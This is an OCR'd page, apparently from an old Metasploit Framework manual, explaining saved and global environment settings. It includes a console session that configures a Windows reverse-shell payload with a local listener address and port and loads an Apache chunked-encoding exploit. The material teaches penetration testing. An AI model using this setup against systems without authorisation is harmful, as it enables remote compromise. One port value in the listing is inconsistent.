 \documentclass{report}
\begin{document}
    \section{Saved Environment}
    \label{ENV-SAVE}
\par
The \texttt{save} command can be used to synchronize the Global and all
Temporary environments to disk. The saved environment is written to
~/.msf/config and will be loaded when any of the user interfaces are executed.  


    \section{Environment Efficiency}
    \label{ENV-EFF}
\par
This split environment system allows you save time during exploit development
and penetration testing. Common options between exploits can be defined in the
Global environment once and automatically used in any exploit you load thereafter.  

\par
The example below shows how the \texttt{LPORT}, \texttt{LHOST}, and
\texttt{PAYLOAD} global environments can be used to save time when exploiting a
set of Windows-based targets. If this environment was set and a Linux exploit
was being used, the Temporary environment (via \texttt{set} and \texttt{unset})
could be used to override these defaults.  

\begin{verbatim}
msf > setg LPORT 1234
LPORT -> 1234
msf > setg LHOST 192.168.0.10 
LHOST -> 192.168.0.10
msf > setg PAYLOAD win32_reverse
PAYLOAD -> win32_reverse
msf > use apache_chunked_win32 
msf apache_chunked_win32(win32_reverse) > show options 
Exploit and Payload Options
===========================

  Exploit:    Name      Default    Description
  --------    ------    -------    ------------------    
  optional    SSL                  Use SSL
  required    RHOST                The target address
  required    RPORT     80         The target port
  
  Payload:    Name        Default    Description
  --------    --------    -------    ------------------------------------------    
  optional    EXITFUNC     seh             Exit technique: "process", "thread", "seh"
  required    LPORT        123             Local port to receive connection
  required    LHOST        192.168.0.10    Local address to receive connection
\end{verbatim}
\end{document}
